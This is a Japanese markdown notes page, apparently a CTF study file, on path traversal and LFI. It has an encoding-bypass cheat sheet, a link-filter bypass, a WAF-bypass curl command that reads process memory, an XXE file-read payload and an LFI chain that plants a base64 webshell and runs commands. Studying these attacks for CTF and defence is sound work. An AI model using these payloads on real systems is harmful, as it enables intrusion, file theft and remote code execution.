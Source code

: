 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [概要](#%E6%A6%82%E8%A6%81)
- [writeup](#writeup)
  - [bypass filter "." with "%E3%80%82" (hackerone)](#bypass-filter--with--hackerone)
  - [python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)](#python--bypass-nginx-waf-with---procselfmaps-%C3%A5ngstromctf-2020---leettube)
  - [XXE (SHARKY CTF 2020 XXEXTERNALXX)](#xxe-sharky-ctf-2020-xxexternalxx)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# 概要
https://security.stackexchange.com/questions/74538/alternative-ways-to-exploit-this-path-traversal/74614#74614  
以下でバイパスできるかも？？  
```txt 
/ %2f %u2215 %252f %c0%af, %e0%80%af, %c0%2f
\ %5c %u2216 %255c %c0%5c, %c0%80%5c
.     %u002e %252e %c0%2e, %e0%40%ae, %c0ae
```
nginx 0.6.36以前ではDirectory Traversalの脆弱性がある。  
https://www.exploit-db.com/exploits/12804  

# writeup
## bypass filter "." with "%E3%80%82" (hackerone)
https://hackerone.com/reports/291750  
- **entrypoint**  
`.`は`%E3%80%82`として`。`のURLエンコードでバイパスできるかもらしい。  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub.com`はLinkがBlockされるけど、`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`で
バイパスできる！  
- **payload**  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`  
## python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)
https://blog.srikavin.me/posts/angstromctf-leettube/  
- **entrypoint**  
ソースの以下の部分がパストラバーラルの脆弱性がある。 
`/videos/../../../`みたいにしてファイルを読みだせる！  
```python
			self.path = urllib.parse.unquote(self.path)
			if self.path.startswith('/videos/'):
				file = os.path.abspath('.'+self.path)
				try: video = open(file, 'rb', 0)
```
ただnginxのWAFが上記のリクエストをフィルタリングして400 bad requestを返してしまう。  
`https://leettube.2020.chall.actf.co/videos/../?/../../`みたいにすると、WAFは`?`以降をクエリとしてそこは見ない。python側では`?`フォルダに一回入ってから`../`で抜けるみたいな意味になるらしい？？  
flagは`flag.txt`みたいな感じじゃなくて`.mp4`に書き込まれてるらしくてメモリ上から抜き出す。  
`/proc/self/maps`でメモリマップ(どのアドレスがどうとか)がわかり、`/proc/self/mem`で実際のメモリを呼び出せるらしい。  
以下のように`Range`ヘッダで指定したアドレスを抜き出せるっぽい？？？  
これで`.mp4`のヘッダを表す`66 74 79 70`というパターンを見つけるとFlagがある。  
```txt
curl --path-as-is 'https://leettube.2020.chall.actf.co/videos/../?/../../proc/self/mem' -H "Range: bytes $(python3 -c 'print(f"{0x7f4d4c225000}-{0x7f4d4cae6000}")')" --output memory.dump
```
- **payload**  
```txt
curl --path-as-is 'https://leettube.2020.chall.actf.co/videos/../?/../../proc/self/mem' -H "Range: bytes $(python3 -c 'print(f"{0x7f4d4c225000}-{0x7f4d4cae6000}")')" --output memory.dump
```
## XXE (SHARKY CTF 2020 XXEXTERNALXX)
https://jaiguptanick.github.io/Blog/blog/SharkyCTF_Writeup_web/  
- **entrypoint**  
`?xml=aaaa`としてURLでアクセスすると`file_get_contents(aaaa): failed to open stream: No such file or directory`というエラーが表示されることから、`aaaa`をファイルとして開こうとしていることがわかる。  
また、`loadXML(): Empty string supplied as input`とかのerrorも出ており、開いたファイルをXML解析しようとしていることがわかる。つまり、XXEすればよい！  
`file_get_contents`は`http://`みたいに外部のURLを指定してもOK。  
以下のXXEのためのファイルを攻撃者サーバーに用意しておいてアクセスさせる。  
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```
- **payload**  
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```
## LFI with /var/lib/php/sessions/sess\_\<PHPSESSID\> / upload base64 webshell "php://filter/convert.base64-decode/resource=" (Meepwn CTF Quals 2018 Mapl Story)
https://ctftime.org/writeup/10418  
https://movrment.blogspot.com/2018/07/meepwn-ctf-2018-qual-maple-s.html  
- **entrypoint**  
`include($_GET['page'])`で明らかにLFIができるが、GET,POST経由のデータはすべて`(`,`)`,`//`,`` ` ``が削除されている。  
`?page=/etc/passwd`みたいにはできる。  
`flag.txt`みたいな感じでフラグはなくて、どっかにあるのでRCEして探す必要があるのが前提。  
`/var/lib/php/sessions/sess_<PHPSESSID>`にあるセッションファイルにアクセスすると、何らかの暗号化されたデータ的なのがあって、それを使ってCookieにある`hash('sha256','admin'.$salt)`で生成されている文字列の`$salt`を復号するらしい。  
これを復号してadminとしてログインする。  
adminは`"uploads/".md5($salt.$email)."/command.txt`に任意の19文字以内の文字を書き込めるらしい。ただし、GET,POST経由では`(`,`)`,`//`,`` ` ``が削除されるので、``<?=`$_GET[1]`;``などの最短のwebshellは設置できない…。  
`<?=include"$_COOKIE[0]`を書き込めば、COOKIEから値を読みだすので`(`とかは削除されなくなる！！  
ただし`include`関数ではRCEできないので、`command.txt`に書き込んだBase64エンコードしたWebshellを`sess_<PHPSESSID>`に書き込んだincludeで読み込みたい！  
つまり、`sess_<PHPSESSID>`に`<?=include"$_COOKIE[0]`を書き込んで、`?page=/var/lib/php/sessions/sess_<PHPSESSID>`でLFIして`include`関数を実行する。  
その引数はCOOKIE経由で渡し、内容は`php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt'`で`command.txt`には``<?=`$_GET[1]`;``がbase64 encodeされたものが書かれている。  
```txt
// ほんとはcommand.txtに<?=`$_GET[1]`;を書き込みたいがそれができないのでbase64エンコードしたものを書き込んでおいてそれをデコードする
// これだと中身がbase64エンコードされたものをincludeするのでダメ
include("upload/56cea464131b6903185abfe3d6103385/command.txt")

// これで中身がbase64デコードしてからincludeできる
include("php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt")

// 以下みたいなことはどうやらできないらしい…。
include("php://filter/convert.base64-decode/resource=data:text/plain,base64,PD89YCRfR0VUWzFdYDs=")
// これはdata://がallow_url_includeが0になっており禁止されている。そもそもこれができるならRFIできる
include("data://text/plain,%3C%3F%3D%60%24_GET%5B1%5D%60%3B)
```
したがって、以下のように`ls`コマンドを実行できるらしい。  
```txt
Ξ ~ → curl 'http://mapl.story/?page=/var/lib/php/sessions/sess_0qlekg08c8pah3rcftjraeon24&1=ls' -H 'Cookie: 0=php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt'      
character_name|s:96:"d1f197d11ed6b3d29f08a9893429eb2bfa19e4543ff1d33bf19c5a89aec19b45080a355c37b4654ec2a5813f81dbe98b";user|s:96:"917467323f3a8e09ab1c2a2d7e3dc3ac85c0c4f08622b7e10a4ec4a18ad36e9919326131b516d9053ee8980a1230ad0e";action|s:65:"[02:27:52am GMT+7] gave blackpig to player admin.php
assets
character.php
dbconnect.php
die.php
game.php
home.php
index.php
login.php
logout.php
mapl_library.php
register.php
setting.php
style.css
upload
1
```
- **payload**  
`/var/lib/php/sessions/sess_0qlekg08c8pah3rcftjraeon24`  
```txt
<?=include"$_COOKIE[0]
```
`upload/56cea464131b6903185abfe3d6103385/command.txt`  
(``<?=`$_GET[1]`;``のBase64エンコード)  
```txt
PD89YCRfR0VUWzFdYDs=
```
以下でlsコマンドを実行  
```txt
curl 'http://mapl.story/?page=/var/lib/php/sessions/sess_0qlekg08c8pah3rcftjraeon24&1=ls' -H 'Cookie: 0=php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt'   
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
https://www.hamayanhamayan.com/entry/2020/08/30/110845  
